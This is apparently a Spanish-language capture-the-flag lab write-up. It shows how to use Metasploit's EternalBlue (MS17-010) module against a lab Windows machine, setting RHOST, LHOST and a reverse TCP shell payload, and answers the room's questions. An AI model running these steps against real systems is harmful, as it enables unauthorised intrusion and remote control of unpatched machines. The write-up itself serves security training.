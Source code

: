 # **Metasploit**

En esta parte estaremos usando Mestasploit para acceder a la máquina víctima por medio del ataque EthernalBlue.

Lo primero que haremos es iniciar metasploit con el siguiente comando:
```bash
msconsole -q
```

## **Find the exploitation code we will run against the machine. What is the full path of the code?**

Ahora lo que haremos es muscar un exploit que nos sirva para explotar la vulnerabilidad Ethernablue.

Simplemente realizaremos la siguiente búsqueda dentro de metasploit y veremos que sucede.

```bash
search ms17_010
```
![ga1](img/ga1.png)

Efectivamente encontramos lo que estamos buscando, para seleccionarlo, por lo tanto la respuesta a la pregunta es ese full path.
Para seleccionarlo usamos el comando
```bash
use 0 
```

**Respuesta:** exploit/windows/smb/ms17_010_eternalblue

## **Show options and set the one required value. What is the name of this value?**

Si realizamos un **show options**, veremos las opciones que queremos configurar, en nuestro caso, solamente **RHOST.** 

![ga2](img/ga2.png)

Aunque la respuesta correcta sea RHOST, también tendremos que modificar nuestro **LHOST** debido a que estamos conectados por VPN.
!!! importan
	Si no configuran el **LHOST**, el ataque no será exitoso.

Por lo general el payload se asigna automáticamente, pero para quitar las dudas lo asignaremos con el siguiente comando:

```bash
set payload windows/x64/shell/reverse_tcp
```

Hecho todo esto solo tendremos que escribir **run** y presionar **ENTER** y gualá Reverse shell lograda !!!!

Los otros apartados dentro de la sección no se tomarán en cuenta, ya que soy muy fáciles de hacer y no necesitan respuesta alguna.

![ga3](img/ga3.png)

